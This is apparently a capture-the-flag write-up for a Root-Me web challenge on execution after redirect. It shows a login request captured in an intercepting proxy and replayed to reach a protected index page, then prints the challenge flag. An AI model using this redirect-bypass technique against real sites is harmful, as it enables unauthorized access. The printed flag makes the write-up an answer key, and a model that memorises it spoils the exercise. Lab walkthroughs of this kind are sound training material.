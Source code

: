 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 12
---
```


> Get access to index.

![1](https://github.com/Knign/Write-ups/assets/110326359/db836239-e4cf-48e4-b7b9-a7004d106dc9)

Let's enter `admin` in both the fields and intercept the request.

![2](https://github.com/Knign/Write-ups/assets/110326359/3ed4bee0-ad4b-4868-b62c-c20505f4a05d)

We can now forward the request to the `Repeater` and  modify it.

## HTTP Request
```
POST /web-serveur/ch32/index.php HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch32/login.php?redirect
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://challenge01.root-me.org
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697428943.14.1.1697430697.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

login=admin&password=admin
```

Finally we have to send it to the server.

![3](https://github.com/Knign/Write-ups/assets/110326359/1ee37ac1-f282-4e3a-bedd-554aa9f981ea)

## Flag
```
ExecutionAfterRedirectIsBad
```
